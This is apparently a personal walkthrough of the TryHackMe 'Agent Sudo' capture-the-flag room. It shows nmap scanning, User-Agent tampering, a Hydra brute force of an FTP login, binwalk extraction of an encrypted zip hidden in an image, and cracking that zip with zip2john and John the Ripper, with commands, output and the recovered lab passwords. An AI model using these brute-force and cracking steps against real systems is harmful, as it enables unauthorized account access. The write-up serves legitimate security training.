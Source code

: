 ### Agent-sudo

export IP - 10.10.25.133

#### Author's Note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.


#### Enumerate

Enumerate the machine and get all the important information

How many open ports?
- 3

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.25.133
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 10:28 EDT
Nmap scan report for 10.10.25.133
Host is up (0.71s latency).
Not shown: 990 closed tcp ports (conn-refused)
PORT      STATE    SERVICE  VERSION
21/tcp    open     ftp      vsftpd 3.0.3
22/tcp    open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp    open     http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
212/tcp   filtered anet
544/tcp   filtered kshell
2013/tcp  filtered raid-am
4004/tcp  filtered pxc-roid
8649/tcp  filtered unknown
15000/tcp filtered hydap
41511/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.52 seconds
                                                              
```

Looking at the webpage we are greeted with a message:

![[Pasted image 20220818203145.png]]

From there we can use burp to check what is happening:

![[Pasted image 20220818203258.png]]

Upon checking, we can see the `User-Agent` that Agent R is referring. We can change this to C, like so:

![[Pasted image 20220818203403.png]]

After that we are greeted by a redirection page:

![[Pasted image 20220818203431.png]]

![[Pasted image 20220818203442.png]]

![[Pasted image 20220818203458.png]]

Using these information, we can now use hydra to crack ftp password (remember nmap, port 22 and port 80?) since Agent R said password is weak:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.170.97 ftp -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-18 20:24:14
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.170.97:21/
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 14344351 to do in 4980:41h, 4 active
[STATUS] 48.00 tries/min, 144 tries in 00:03h, 14344255 to do in 4980:39h, 4 active
[21][ftp] host: 10.10.170.97   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-18 20:29:35
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ 


```

#### Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

FTP Password: crystal

Use the username and password acquired from earlier 

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ ftp 10.10.170.97
Connected to 10.10.170.97.
220 (vsFTPd 3.0.3)
Name (10.10.170.97:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62242|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||10689|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |**************************************************************************|   217        1.39 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.29 KiB/s)
ftp> 

```


![[Pasted image 20220818203845.png]]

Using binwalk, i checked for any zip files inside the pictures:

```

┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ binwalk cute-alien.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]


```

After that, i extracted the zip file on the image using binwalk -e flag:

```

┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ binwalk cutie.png -e  

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ ls
cute-alien.jpg  cutie.png  _cutie.png.extracted  gobuster_scan.txt  nmap_results.txt  README.md  To_agentJ.txt


```

Once zip file is extracted, i used ssh2john to invoke zipfile to convert to hash file:

```

┌──(kali㉿kali)-[~/…/MoonShine/CTF/Agent-sudo/_cutie.png.extracted]
└─$ ls
365  365.zlib  8702.zip  To_agentR.txt

┌──(kali㉿kali)-[~/…/MoonShine/CTF/Agent-sudo/_cutie.png.extracted]
└─$ zip2john 8702.zip > 8702_hash.txt
                                               

```

Once done, proceed with john the ripper to brute force the hash and extract the password:

```

┌──(kali㉿kali)-[~/…/MoonShine/CTF/Agent-sudo/_cutie.png.extracted]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt 8702_hash.txt    
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2022-08-18 20:57) 2.325g/s 57153p/s 57153c/s 57153C/s christal..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                      
┌──(kali㉿kali)-[~/…/MoonShine/CTF/Agent-sudo/_cutie.png.extracted]
└─$ 
                                                                                                                      
┌──(kali㉿kali)-[~/…/MoonShine/CTF/Agent-sudo/_cutie.png.extracted]
└─$ 


```






